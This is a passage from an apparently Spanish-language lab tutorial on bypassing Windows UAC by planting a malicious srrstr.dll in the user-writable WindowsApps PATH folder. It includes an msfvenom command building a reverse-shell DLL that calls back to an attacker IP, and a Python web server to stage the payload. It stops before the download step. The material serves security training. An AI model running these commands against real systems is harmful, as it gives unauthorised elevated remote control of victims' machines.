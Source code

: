 Al intentar localizar una DLL, Windows utilizará el siguiente orden de búsqueda.

1. El directorio desde el cual se cargó la aplicación.
2. El directorio del sistema `C:\Windows\System32` para sistemas de 64 bits.
3. El directorio del sistema de 16 bits `C:\Windows\System` (no soportado en sistemas de 64 bits).
4. El directorio de Windows.
5. Cualquier directorio que esté listado en la variable de entorno PATH.

### Reviewing Path Variable

Examinemos la variable path utilizando el comando `cmd /c echo %PATH%`. Esto revela las carpetas predeterminadas a continuación. La carpeta `WindowsApps` está dentro del perfil del usuario y es escribible por el usuario.

```r
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

Podemos potencialmente eludir UAC en esto utilizando la técnica de secuestro de DLL colocando una DLL maliciosa `srrstr.dll` en la carpeta `WindowsApps`, que será cargada en un contexto elevado.

### Generating Malicious srrstr.dll DLL

Primero, generemos una DLL para ejecutar una reverse shell

.

```r
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

Nota: En el ejemplo anterior, especificamos nuestra dirección IP VPN tun0.

### Starting Python HTTP Server on Attack Host

Copiamos la DLL generada a una carpeta y configuramos un mini servidor web Python para alojarla.

```r
sudo python3 -m http.server 8080
```

### Downloading DLL Target

Descargamos la DLL maliciosa al sistema objetivo y configuramos un `Netcat` listener en nuestra máquina de ataque.
